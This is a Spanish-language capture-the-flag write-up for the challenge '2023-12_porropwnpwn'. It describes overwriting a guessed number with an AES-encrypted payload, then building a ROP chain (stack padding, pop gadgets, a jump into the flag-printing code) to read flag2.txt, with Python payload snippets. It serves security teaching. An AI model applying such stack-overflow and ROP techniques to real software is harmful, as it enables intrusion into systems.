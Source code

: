 # UAM: Write-up del reto 2023-12_porropwnpwn

## Flag 1

La función calcula un número y pide al usuario que lo adivine. Hay un número concreto, 1337, que permite enviar un payload que puede sobrescribir el número pensado por la máquina. Se sobrescribe con el número 1337 en little endian, y así nos aseguramos de que se acierta siempre.

El payload hay que enviarlo cifrado en AES, con la clave que indica el servidor.

```python
v = 1337
plaintext= v.to_bytes(4, 'little')*8*4 * 2   # 256 bytes de payload
ciphertext = encrypt(key, plaintext)
```

## Flag 2

La funcion flag2 genera una contraseña o passphrase, que se deriva en un clave/key AES de 128bits, que es la que hay que usar para enviarle el payload. La idea es implementar esta función, teniendo en cuenta el uso de las funciones `srand` y `rand` de la libc, que no
son equivalentes 100% a las funciones de python_

```python
from ctypes import CDLL
libc = CDLL("libc.so.6")

libc.srand(1337)
print(libc.rand())
```

Sin embargo, es posible utilizar la función auxiliar `encrypt` (opción oculta 3) para ahorrarnos este cálculo. (Unintended por ser buena gente :))

Una vez tenemos clave AES, nos encontramos ante un reto ROP (return oriented programming), en la que se sobrescribe la pila, y la dirección de retorno. Se utilizan gadgets presentes en el binario (p.ej. `pop rax, ret`), para preparar los parámetros necesarios antes de saltar a las funciones necesarias (open/read, etc)

En el caso de este binario, existe la cadena `"flag2.txt\0"`, y podemos utilizar parte de la función que imprime la flag1:

```c
    if (guess == number) {
        printf("¡Has acertado! Aquí tienes tu flag:\n");
        fd = open("flag1.txt", 0);   // <<-- Saltamos a una dirección de memoria de esta linea, reemplazando rax con la 
                                     //      dirección del string flag2.txt, así no tenemos que implementar nada a mano.
        n = 1;
        while (n > 0) {
            n = read(fd, &msg, sizeof(msg));
            write(1, &msg, n);
        }
        fflush(stdout);
        printf("\n");

        close(fd);
```

![](imgs/print_flag.png)

El payload final queda así:

```python
payload = flat(
    b"A"*280,                   # Padding hasta llegar a RIP
    pop_rbp, exe.bss(0x100),    # Establecemos RBP a una dirección conocida (y escribible), 0x100 bytes dentro del BSS.
    pop_rax, flag2_str,         # RAX apunta a "flag2.txt"
    pop_rsi, 0,                 # RSI son las flags de open(), tienen que estar a 0
    print_flag,                 # Finalmente saltamos a print_flag, que será la instrucción 0x16a2 en la captura anterior.
)
```

Resultado:

![](imgs/exploit.png)

### Nota

Es posible que el binario compilado sea distinto al publicado inicialmente en el servidor de retos, debido a limpieza de código no utilizado. Copiad el binario del reto al directorio donde tengais exploit.py, para que calcule bien los offsets.

